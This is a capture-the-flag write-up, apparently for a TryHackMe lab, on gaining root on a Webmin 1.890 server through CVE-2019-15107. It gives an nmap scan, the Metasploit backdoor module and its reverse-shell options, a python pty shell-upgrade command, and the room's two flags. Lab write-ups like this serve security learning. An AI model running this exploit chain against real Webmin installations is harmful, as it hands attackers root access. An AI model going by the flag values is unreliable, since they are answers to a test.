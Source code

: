 # Source

## description

Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

## Data

IP address = `10.10.216.185`

The tool is Webmin, a web-based system config tool

## NMAP

```bash
# Nmap 7.92 scan initiated Sat Jun 11 12:43:56 2022 as: nmap -sV -oN nmap.txt --allports 10.10.216.185
Nmap scan report for 10.10.216.185
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 12:44:35 2022 -- 1 IP address (1 host up) scanned in 38.70 seconds
```

## Probing

### Http
Accessing the machine on http, we get an error:

```
Error - Document follows
This web server is running in SSL mode. Try the URL https://ip-10-10-216-185.eu-west-1.compute.internal:10000/ instead.
```
-> This url has no dns

### Cookies

The /session_login.cgi has a `testing` cookie with the value to 1. If set to 0 (ex. true), then we get an error: 

```
Error - No cookies
Your browser does not support cookies, which are required for this web server to work in session authentication mode
```

### Enumerating webpages

nothing shows

### CVE-2019-15107

https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search

Metasploit added an exploit to their database

## Metasploit

Exploit: `linux/http/webmin_backdoor`

RHOST = IP
RPORT = 10000
SSL = true
LHOST = attack ip

This created a shell, but it needed to be stabelized.


We used the python interactive shell to spawn a bash shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We are immediately logged in as root

## Flags

`/home/dark/user.txt` = `THM{SUPPLY_CHAIN_COMPROMISE}`

`/root` = `THM{UPDATE_YOUR_INSTALL}`




